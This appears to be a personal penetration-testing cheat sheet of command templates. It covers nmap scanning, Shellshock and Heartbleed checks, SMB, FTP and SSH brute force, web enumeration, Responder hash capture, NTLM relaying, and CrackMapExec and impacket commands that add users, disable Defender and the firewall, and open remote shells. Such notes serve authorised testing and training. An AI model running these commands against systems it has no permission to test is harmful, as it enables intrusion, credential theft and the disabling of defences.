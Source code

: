 # plateform/linux #target/remote #cat/RECON #tag/scan

##nmap - savitar 1
```
nmap -sS -p- --open -n -Pn <ip> -oG <name>
```
## nmap - savitar sVC
```
nmap -sCV -p<ports> <ip> -oA <name> --stylesheet /home/kermit/nmap-bootstrap.xsl
```
##nmap - ipv6
```
nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn -6 <ip> -oG <name>
```
##nmap - update
```
nmap --script-updatedb
```
##nmap - directories
```
nmap --script http-enum -p<port> <ip> -oGN <name>
```
##nmap - http methods
```
nmap --script -sV -p<port> <ip> http-methods --script-args http-methods.url-path=<path>
```
##nmap - shell shock
```
nmap --script http-shellshock --script-args uri=<path> -p<port> <ip>
```
##nmap - vulnerabilities
```
nmap --script "exploit and vuln and intrusive" --script-args uri=<path> -p<port> <ip>
```
## nmap smb enum without credentials
```
nmap --script smb-enum-shares,smb-os-discovery,smb2-security-mode.nse,smb-enum-sessions,smb-enum-domains,smb-enum-groups,smb-enum-users,smb-server-stats -p<port> <ip>
```
## nmap smb enum with credentials
```
nmap --script smb-enum-shares,smb-os-discovery,smb2-security-mode.nse,smb-enum-sessions,smb-enum-domains,smb-enum-groups,smb-enum-users,smb-server-stats --script-args smbusername=<user>,smbpassword=<pass> -p<port> <ip>
```
## nmap smb brute force
```
nmap --script smb-brute --script-args userdb=<usernames>,passdb=<passwords> -p<port> <ip>
```
## nmap ssl heart bleed
```
nmap --script ssl-heartbleed.nse -p<port> <ip>
```
## nmap ftp brute force
```
nmap --script ftp-anon,ftp-brute --script-args --script-args userdb=<usernames>,passdb=<passwords> -p<port> <ip>
```
## nmap ssh
```
nmap --script ssh2-enum-algos,ssh_hostkey,ssh-auth-methods --script-args ssh_hostkey=full -p <port> <ip>
```
## nmap ssh bruteforce
```
nmap --script ssh-brute --script-args userdb=<usernames>,passdb=<passwords> -p<ports> <ip>
```
## nmap proxychains
```
proxychains nmap -sT -Pn -p<ports> -T5 -v -n <ip> 2>/dev/null -oN <file>
```
## nmap xargs
```
seq 1 65535 | xargs -P 100 -I {} proxychains nmap -sT -p{} -Pn -open -T5 -v -n <ip> 2>&1 | grep "tcp open"
```
## wpscan enumerate users
```
wpscan --url "<url>" --enumerate u --api-token="token"
```
## wpscan enumerate vulnerable plugins
```
wpscan --url "<url>" -e vp --api-token="token"
```
## wpscan enumerate hard
```
wpscan --url "<url>" --enumerate u,vp --plugins-detection aggressive --api-token=$wpscan
```
## gobuster directories
```
gobuster dir -u <url> -w <directory> -t 20 -x html,php,txt
```
## gobuster subdomains
```
gobuster vhost -u <url> -w <subdomains> -t 200 -k
```
## gobuster directories proxy 
```
gobuster dir --proxy '<proxy>' -u <url> -w <directory> -t 20 -x html,php,txt

```
## gobuster subdomains proxy 
```
gobuster vhost --proxy '<proxy>' -u <url> -w <subdomains> -t 20 -x html,php,txt

```
## gobuster
```
wfuzz -c -t 200 --hc=404 <directory> <url>
```
## wafw00f
```
wafw00f <url>
```
## responder netNTLMv2 hashes
```
responder -I <interface> -wdv | tee -a <hashes>; grep "Hash" <hashes> | awk '{print $2}' FS=": " | tee >(sed $'s/\033[[][^A-Za-z]*m//g' > <hashes>)
```
## rustscan
```
rustscan -a <ip> --ulimit 100 -t 5 -- -n -Pn -oG <name>
```
## rustscan ports
```
rustscan -a <ip> --ulimit 100 -t 5 -p<ports> -- -n -Pn -sCV -oN <name>
```
## cme enable winrm
```
cme smb <ip> -u '<user>' -p '<pass>' -x 'powershell Enable-PSRemoting'
```
## cme --loggedon-users
```
cme smb <ip> -u '<user>' -p '<pass>' --loggedon-users
```
## cme create user
```
cme smb <ip> -u '<user>' -p '<password>' 'net user <user> /add'
```
## cme execution policy
```
cme smb <ip> -u '<user>' -p '<password>' 'Set-ExecutionPolicy unrestricted'
```
## cme disable defender
```
cme smb <ip> -u '<user>' -p '<password>' 'Set-MpPreference -DisableRealtimeMonitoring $true'
```
## cme disable firewall
```
cme smb <ip> -u '<user>' -p '<password>' 'NetSh Advfirewall set allprofiles state off'
```
## cme enable rdp
```
cme smb <ip> -u '<user>' -p '<password>' -M rdp -o action=enable 
```
## responder NTLM relay
```
responder -I <interface> -wdv
```
## ntlmrelay ipv6
```
ntlmrelayx.py -6 -wh 192.168.1.76 -t smb://<ip> -socks -debug -smb2support
```
## impacket wmiexec
```
impacket-psexec s4vicorp.local/<user>:'<pass>'@<ip> powershell.exe
```
